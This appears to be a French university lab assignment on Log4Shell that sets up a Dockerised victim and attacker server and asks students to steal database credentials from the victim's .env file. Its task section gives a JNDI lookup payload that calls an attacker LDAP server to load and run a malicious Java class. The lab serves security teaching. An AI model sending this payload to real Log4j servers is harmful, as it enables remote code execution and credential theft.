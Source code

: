 # Sujet - TP Log4Shell 
### BERTRAND Timothé - BLANC Olivier - PAYS Antoine - GENIN Fabien
### A rendre pour le jeudi 10 février 2022 23H59


## Exercice

### **Objectif** : Récuperer le contenu de la BDD avec les informations présentes dans le fichier .env de la victime.


**Schéma explicatif rapide :** 

Vous êtes un attaquant et vous souhaitez accéder à une BDD, sauf que vous n'avez pas les informations pour vous connectez à la BDD. Ces informations se trouvent dans le fichier .env de la victime.
Il faut savoir que le développeur du serveur victime a choisi de logger les identifiants d'un utilisateur lors de l'envoi du formulaire.


## Configuration

Pour utiliser les commandes docker vous devrez vous connecter à VDN à l'IUT

Si vous utilisez les machines de l'iut, lancer `vdn docker-tmp`.
Start la machine root@debian-1
Dans la console de la VM root@debian-1, créer un répertoire "log4shell" 
Faire `cd log4shell` et ensuite `git clone https://github.com/Fabinhio25/TPLog4Shell`

Faire un `make all` pour créer tous les DockerFiles

Après avoir fait le make all, faire un `docker-compose up` dans le repertoire cloné.
Récupérer les IP de server et de victime dans la console quand docker-compose up est executé
Victim_1 | Running on IP : XXX.XXX  
Server_1 | Running on IP : XXX.XXX
L'IP server sera a mettre dans le lookup plus tard

Etapes à reproduire pour la réalisation du tp :

Créer un fichier java dans lequel le code devra récupérer et écrire le .env de la base de données dans les logs du serveur.
Appeler votre class java dans une requete faite au serveur, grace à un lookup vu en cours.

Exemple de lookup : "${jndi:ldap://<ipserver>:9999/WithReturn}"
    
Pour se connecter a la BDD : `mysql -u root -p ipadress`
    ipadress se trouve dans le .env


### Question : 
    
Le but est de se connecter sur le serveur de la victime en tant que administrateur. Utiliser le lookup vu en cours, afin d'appeler et d'exécuter la class (code malicieux). Pour écrire le contenu du fichier .env dans les logs, l'envoyer au loggeur du serveur afin de récupérer dans les logs du serveur. Grace à cette manipulation vous allez pouvoir récupérer l'identifiant et mot de passe de l'administrateur du serveur.

Vous trouverez des exemples du fichier java /TPLog4Shell/attacker/java/ :

Simple.java
WithReturn.java
